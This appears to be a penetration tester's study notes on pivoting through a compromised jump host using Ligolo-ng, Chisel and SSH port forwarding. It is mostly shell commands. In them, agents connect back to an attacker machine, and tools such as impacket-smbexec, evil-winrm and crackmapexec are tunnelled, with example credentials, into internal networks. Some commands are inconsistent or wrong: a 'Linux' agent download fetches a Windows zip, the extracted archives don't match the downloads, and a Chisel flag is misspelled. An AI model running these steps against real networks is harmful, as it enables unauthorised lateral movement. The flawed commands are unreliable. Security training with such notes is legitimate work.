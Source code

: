 ## Pivoting for lateral movement (Ligolo-ng)
- https://0xdf.gitlab.io/2019/01/28/pwk-notes-tunneling-update1.html
- https://systemweakness.com/everything-about-pivoting-oscp-active-directory-lateral-movement-6ed34faa08a2
- Agent (Linux Jump host): `sudo wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.4/ligolo-ng_agent_0.4.4_windows_amd64.zip`
- Agent (Windows Jump host):  `sudo wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.4/ligolo-ng_proxy_0.4.4_windows_amd64.zip`
- Proxy (Kali): `sudo wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.3/ligolo-ng_proxy_0.4.3_Linux_64bit.tar.gz`
- tar -xzvf ligolo-ng_agent_0.4.4_linux_amd64.tar.gz
- tar -xzvf ligolo-ng_proxy_0.4.4_linux_amd64.tar.gz
- https://www.calculator.net/ip-subnet-calculator.html
![image](https://github.com/user-attachments/assets/a69cb841-b3be-44da-ad11-2d0b86cb231b)


 ```bash
#Pre-pivoting set up on kali
**##Jumphost is 172.16.5.129 and connects to target 172.16.5.19**
$ sudo ip tuntap add user [your_username] mode tun ligolo
$ sudo ip link set ligolo up

@Attack Machine
./proxy -selfcert -laddr 0.0.0.0:9001

@Jump Host
./agent -connect <attack machine IP>:9001 -ignore-cert

@Attack Machine
#purpose: add a ip route to tell the router to send our packets to that internal network. 
#To add a route and access the internal network execute the command in your attack machine.
sudo ip route add 172.16.4.0/23 dev ligolo

@Attack Machine
#choosing and starting session
session
1
start

@Attack Machine
#open new CMD and RDP to target
rdesktop -u victor -p 'password' 172.16.5.19
```

- [Full guide](https://software-sinner.medium.com/how-to-tunnel-and-pivot-networks-using-ligolo-ng-cf828e59e740)
  
## Pivoting Using Chisel
- https://blog.mkiesel.ch/posts/oscp_pivoting/
- https://ap3x.github.io/posts/pivoting-with-chisel/ for multi level pivot

```bash
#On your attacking machine (192.168.60.200) setup a Chisel server with:
#PORT = port for the Chisel traffic
#socks5 = to setup a SOCKS5 proxy
#reverse = to tell Chisel to wait for a connection from a client
./chisel server --port 1080 --sock5 --reverse

#On your attacking machine edit the file /etc/proxychains4.conf #1080 is the sock5 port
#Chisel
#1080 is the default port of the Chisel reverse proxy
socks5 127.0.0.1 1080

#on windows jumphost, setup Chisel Client with:
#IP = The IP address of your Chisel server
#PORT = The port you set on your Chisel sever
#R:socks = enables the reverse SOCKS proxy
#max-retry-count 1 = to exit Chisel when you kill your server
#must be same port as chisel server
.\Chisel.exe client --max-retry-count 1 192.168.60.200:1080 R:socks

#You can now attack the third server (ex. 10.0.60.99 or any servers in 10.0.60.x domain) by adding proxychains -q before every command. The -q is for quiet mode since most attackers won’t need verbose proxy traffic
#The traffic flows into port 1080 on your machine and out on your jump host, which has established a connection back to your listener on the port you specified when executing chisel server
proxychains -q nmap -sC -sV 10.0.60.99
proxychains -q ssh user@10.0.60.99
proxychains -q mysql -u dbuser -h 10.0.60.99
proxychains -q impacket-smbexec domain\user: -target-ip  10.0.60.99
proxychains -q evil-winrm -i 10.0.60.99 -u 'domain\user' -p ''
proxychains -q xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
proxychains crackmapexec smb 10.0.0.100 -u 'guest' -p ''

#or on attacker's kali, you can connect to the third server using 127.0.0.1 on web browser. If the web browser shows unable to connect, then add thehost name to /etc/hosts
```

## Port forwarding (used when there is firewall)
home-computer/port-80 ----> port-80/proxy-machine/port-21 ----> ftp-server
https://exploit-notes.hdks.org/exploit/network/port-forwarding/port-forwarding-with-chisel/
```bash
#Local Port Forwarding
# In remote machine
chisel server -p <listen-port>

# In local machine
chisel client <listen-ip>:<listen-port> <local-port>:<target-ip>:<target-port>
```

## Port forwarding using SSH
```
#forward all local port 9906 traffic to port 3306 on the remote database.example.com server, letting me point my desktop GUI to localhost (127.0.0.1:9906) and have it behave exactly as if I had exposed port 3306 on the remote server and connected directly to it.
$ ssh -f -N -L 9906:127.0.0.1:3306 coolio@database.example.com
```
